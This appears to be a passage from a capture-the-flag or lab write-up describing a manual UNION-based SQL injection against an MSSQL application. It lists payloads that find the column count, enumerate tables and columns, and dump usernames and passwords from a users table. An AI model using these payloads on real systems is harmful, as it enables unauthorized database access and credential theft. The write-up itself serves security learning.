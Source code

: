 <img src="https://i.imgur.com/Et5Ul1s.png"/>

 It was able to determine that it was indeed vulnerable 

<img src="https://i.imgur.com/D65dsWi.png"/>

But it wasn't able to detemine the database reaon could be because of blocked.php filtering the payloads so we need to dump the database manually 

For that I tried finding the number of columns but it wasn't returning any error it was hard to identify the columns by including `@@version` in the column and then increasing the column if it wasn't showing in return

```sql
uwu' union select 1,@@version,3,4,5,6 -- 

```

<img src="https://i.imgur.com/TJmcvjR.png"/>

We know that the MSSQL is being used so now we need to enumerate tables for that we can use this payload 

```sql
uwu' union select 1,table_name,3,4,5,6 from information_schema.tables --
```

<img src="https://i.imgur.com/9L6GJrJ.png"/>

There's a `users` table , we need now need to know what columns exists in this table

```sql
uwu' union select 1,column_name,3,4,5,6 from information_schema.columns where table_name= 'users' --
```

<img src="https://i.imgur.com/zfLPa5W.png"/>

We can then extract username and password columns 

```sql
uwu' union select 1,username,3,4,5,6 from users --
```

<img src="https://i.imgur.com/YLqszvw.png"/>

```sql
uwu' union select 1,password,3,4,5,6 from users --
```

<img src="https://i.imgur.com/2oF2Lm9.png"/>

To make it easy, we can concatenate both columns to get a better result

```sql
uwu' union select 1,concat(username,':',password),3,4,5,6 from users --
```
